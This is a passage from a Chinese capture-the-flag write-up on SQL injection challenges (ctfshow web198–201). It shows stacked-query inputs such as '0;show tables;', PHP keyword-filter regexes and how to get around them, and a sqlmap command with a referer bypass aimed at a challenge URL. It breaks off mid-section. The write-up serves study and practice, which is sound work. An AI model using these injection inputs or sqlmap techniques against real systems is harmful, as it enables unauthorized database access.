 另一种解法：

```
username:    0;show tables;
pass:        ctfshow_user
```

## web198

> ```
>  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop/i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

## web199-200~show tables;

> ```
> if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(/i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

过滤了 `(` ，所以不能用 alter 了，

但是还能直接

```
username:   0;show tables
password:   ctfshow_user
```

# 五、sqlmap的使用

## web201

> [ sqlmap最新版下载](https://ctfshow.lanzoui.com/i4wlziac1de)
>
>  使用--user-agent 指定agent
>
>  使用--referer 绕过referer检查

判断注入点：

```python
python2 sqlmap.py -u "http://0f81bbb3-0eb7-42fe-b6ac-818d9ee151d1.chall.ctf.show/api/?id=1" --referer="ctf.show"
```

爆数据库
